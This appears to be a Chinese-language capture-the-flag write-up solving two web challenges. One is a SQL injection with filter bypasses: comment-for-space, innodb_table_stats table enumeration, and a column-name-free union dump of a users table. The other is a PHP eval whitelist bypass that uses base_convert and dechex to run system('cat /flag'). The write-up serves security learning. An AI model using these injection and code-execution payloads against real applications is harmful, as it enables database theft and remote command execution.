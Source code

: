 ## [SWPU2019]Web1（sql注入）

注册进入

可以发布广告，发一条可以发现可以查看信息，查看可以发现id=1，可以查觉是sql注入，试一下，1‘ or 1=1#

发现被过滤了，一个一个试试，发现

#### 过滤了`or`,`#`,`--+`和空格

空格可以通过/**/代替空格

#### 注释符被过滤，将后面的单引号闭合即可

or过滤的话，or，order，information——Schema不能用

所以：查表名的可以用

select group_concat(table_name) from mysql.innodb_table_stats where database_name=database()

跳过爆字段名直接爆值，参考[这个](https://www.jianshu.com/p/6eba3370cfab)

在information_schema中，除了SCHEMATA，TABLES，COLUMNS有表信息外，高版本的mysql中，还有INNODB_TABLES及INNODB_COLUMNS中记录着表结构。

Payload：

首先爆数据库，试了一下有22个字段：
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020103020353391.png#pic_center)

懂了，库名是web1

然后是爆表名：
1'/**/union/**/select/**/1,database(),group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name="web1"'

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201030203649973.png#pic_center)


懂了，表名是users

无字段名爆值
1'/**/union/**/select/**/1,database(),(select/**/group_concat(b)/**/from/**/(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'


学到了学到了，特以此博文纪念~

## [CISCN 2019 初赛]Love Math

1.先看题目

<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 


分析一下源代码

一开始是限制了传入参数的长度，然后有黑名单过滤，最后是白名单，这里的白名单是常用的数学函数。

这里说一下思路

1.先去传入一个参数，看一下是否能进行命令执行

payload：/?c=19-1



2.然后这里黑名单过滤了不少东西，常规的cat/flag都不能使用了，这里有个知识点是php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数比如下面的代码会执行 system(‘cat/flag’);

$a='system';
$a('cat/flag');
这里使用的传参是

?c=($_GET[a])($_GET[b])&a=system&b=cat /flag
但是这里的_GET和a，b都不是白名单里面的，这里需要替换

替换之后

?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat /flag
但是这里的_GET是无法进行直接替换，而且[]也被黑名单过滤了

这里就需要去了解一下他给的白名单里面的函数了

这里说一下需要用到的几个函数

这里先将_GET来进行转换的函数

hex2bin() 函数
hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。

这里的_GET是ASCII 字符，用在线工具将_GET转换为十六进制



hex2bin(5f 47 45 54) 就是 _GET,但是hex2bin()函数也不是白名单里面的，而且这里的5f 47 45 54也不能直接填入，这里会被

 preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
来进行白名单的检测。

这里的hex2bin()函数可以通过base_convert()函数来进行转换

base_convert()函数能够在任意进制之间转换数字

这里的hex2bin可以看做是36进制，用base_convert来转换将在10进制的数字转换为16进制就可以出现hex2bin

hex2bin=base_convert(37907361743,10,36)

然后里面的5f 47 45 54要用dechex()函数将10进制数转换为16进制的数

dechex(1598506324)，1598506324转换为16进制就是5f 47 45 54

最终的payload：

/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag

